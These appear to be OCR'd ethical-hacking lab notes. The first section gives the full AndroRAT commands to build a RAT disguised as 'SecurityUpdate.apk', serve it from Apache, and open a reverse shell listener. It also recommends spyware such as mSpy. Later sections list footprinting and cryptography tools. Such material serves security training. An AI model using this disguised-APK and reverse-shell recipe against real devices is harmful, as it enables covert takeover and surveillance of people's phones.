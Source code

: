 2: Hack an Android Device by Creating APK File using AndroRAT
cd AndroRAT
python3 androRAT.py --build -i 10.10.1.13 -p 4444 -o SecurityUpdate.apk command to create an APK file (here, SecurityUpdate.apk).
--build: is used for building the APK
-i: specifies the local IP address (here, 10.10.1.13)
-p: specifies the port number (here, 4444)
-o: specifies the output APK file (here, SecurityUpdate.apk)
cp /home/attacker/AndroRAT/SecurityUpdate.apk /var/www/html/share/ command to copy the SecurityUpdate.apk

Run mkdir /var/www/html/share command to create a shared folder
Run chmod -R 755 /var/www/html/share command
Run chown -R www-data:www-data /var/www/html/share
service apache2 start

python3 androRAT.py --shell -i 0.0.0.0 -p 4444
--shell: is used for getting the interpreter
-i: specifies the IP address for listening (here, 0.0.0.0)
-p: specifies the port number (here, 4444)
In the Android Emulator GUI, click the Chrome icon on the lower section of the Home Screen to launch the browser
In the address bar, type http://10.10.1.13/share and press Enter.Download the apk file and install. 

You can check your parrot machine
You can also use other Android hacking tools such as hxp_photo_eye (https://github.com), 
Gallery Eye (https://github.com), 
mSpy (https://www.mspy.com), and 
Hackingtoolkit (https://github.com) to hack Android devices.

3. Secure Android Devices from Malicious Apps using AVG
You can use other mobile antivirus and anti-spyware tools such as Certo: 
Anti Spyware & Security (https://play.google.com), 
Anti Spy Detector - Spyware (https://play.google.com), 
iAmNotified - Anti Spy System (https://iamnotified.com), 
Anti Spy (https://www.protectstar.com), 
Secury - Anti Spy Security (https://apps.apple.com) to secure mobile devices from malicious apps.

						LAB18.IoT and OT Hacking

Gather Information using Online Footprinting Tools
The information regarding the target IoT and OT devices can be acquired using various online sources such as Whois domain lookup, advanced Google hacking, and Shodan search engine. The gathered information can be used to scan the devices for vulnerabilities and further exploit them to launch attacks.

https://www.whois.com/whois
https://www.exploit-db.com/google-hacking-database.
https://account.shodan.io/login
						
						LAB19. Cryptography
Hashmyfiles -For calculating and comparing hashes of files
Cryptool - For encryption/decryption of the hex data-by manipulating the key length
BCtextEncoder- For encoding and decoding text in file (.hex)
CryptoForge-For encrypting and decrypting the files
Veracrypt-For hidding and Ecrypting the disk partitions
